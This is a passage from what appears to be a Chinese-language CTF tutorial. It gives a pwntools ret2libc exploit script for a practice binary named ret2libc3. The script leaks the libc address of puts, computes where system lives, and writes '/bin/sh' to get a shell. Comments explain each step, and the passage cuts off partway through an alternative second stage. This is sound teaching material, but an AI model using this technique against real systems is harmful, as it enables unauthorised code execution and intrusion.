 Exp:

```python
# -*- coding: UTF-8 -*- #
from pwn import *
from LibcSearcher import *

r = process('./ret2libc3')
elf = ELF('./ret2libc3')
# 程序开始处，_start可以保证变量在栈上的偏移量不变。
# main可能会变，__libc_start_main不清楚
_start = elf.symbols['_start']
# 调用puts，泄露信息，实际是调用puts_plt
puts_plt = elf.plt['puts'] 
# 企图泄露got表上puts的实际值，也就是puts在libc上的实际地址
# 通过LibcSearcher工具，利用泄露的实际地址的最后12位，查询得到libc的版本
# libc的版本确定，libc上每个函数的偏移量确定，通过libc基地址算出system等函数的实际地址
puts_got = elf.got['puts']
# 调用gets，向bss写入/bin/sh
gets_plt = elf.plt['gets']
# 可写的bss段，程序应该是定义了一个全局变量 char buf2[100]
buf = 0x0804A080


# 第一轮，泄露puts地址
r.recvuntil('Can you find it !?')
p = 'a'*(0x6c+0x4)
p += p32(puts_plt)
p += p32(_start)
p += p32(puts_got)

r.sendline(p)

puts_addr = u32(r.recvline()[:4])
log.success('puts在libc上的地址: {}'.format(hex(puts_addr)))

# 计算得到libc基地址，以及system等函数的地址
obj = LibcSearcher('puts', puts_addr)
puts_offset = obj.dump('puts')
system_offset = obj.dump('system')
libc_base = puts_addr - puts_offset
system_addr = libc_base + system_offset
log.success('libc基地址: {}'.format(hex(libc_base)))
log.success('system地址: {}'.format(hex(system_addr)))

# 第二轮，向buf中写入/bin/sh，并调用system('/bin/sh')
r.recvuntil('Can you find it !?')
p = 'a'*(0x6c+0x4)
p += p32(gets_plt)
p += p32(system_addr)
p += p32(buf)
p += p32(buf)

r.sendline(p)
r.sendline('/bin/sh')


'''或者可以将第二轮拆成两轮
# 第二轮，向buf中写入/bin/sh
r.recvuntil('Can you find it !?')
p = 'a'*(0x6c+0x4)
p += p32(gets_plt)
p += p32(_start)
p += p32(buf)
```